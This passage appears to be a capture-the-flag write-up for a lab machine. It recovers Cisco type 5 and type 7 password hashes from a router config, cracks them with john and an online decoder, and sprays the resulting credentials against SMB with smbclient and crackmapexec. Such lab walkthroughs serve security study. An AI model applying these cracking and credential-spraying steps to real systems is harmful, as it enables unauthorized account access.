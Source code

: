 ```
no ip http secure-server
!
line vty 0 4
 session-timeout 600
 authorization exec SSH
 transport input ssh
```

In the Cisco config, there are 3 different hashes of two different types, each of which are described in this paper:
```
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91	Cisco Type 5
salted md5

username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
Cisco Type 7
Custom, reversible
```

The type 5 password can be decrypted with john:
```
root@kali# /opt/john/run/john --wordlist=/usr/share/wordlists/rockyou.txt level5_hash                                                                                                      
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ [MD5 256/256 AVX2 8x3])
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
stealth1agent    (?)
1g 0:00:00:15 DONE (2019-08-20 19:54) 0.06631g/s 232443p/s 232443c/s 232443C/s steaua17..steall3
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

There are online tools to crack type 7 hashes
http://www.firewall.cx/cisco-technical-knowledgebase/cisco-routers/358-cisco-type7-password-crack.html

Then we can get `$uperP@ssword` and `Q4)sJu\Y8qz*A3?d`

I’ve got a list of three passwords, and a list of three user names:
```
root@kali# cat passwords 
stealth1agent
$uperP@ssword
Q4)sJu\Y8qz*A3?d
root@kali# cat users 
rout3r
admin
hazard
```

port 445
I would want to check what is going on here
```
smbclient -L //10.10.10.149
Password for [WORKGROUP\wither]:
session setup failed: NT_STATUS_ACCESS_DENIED

But the guest account could not access.

I would use the before passwords and usernames to crack them.

crackmapexec smb 10.10.10.149 -u usernames -p passwords

SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
```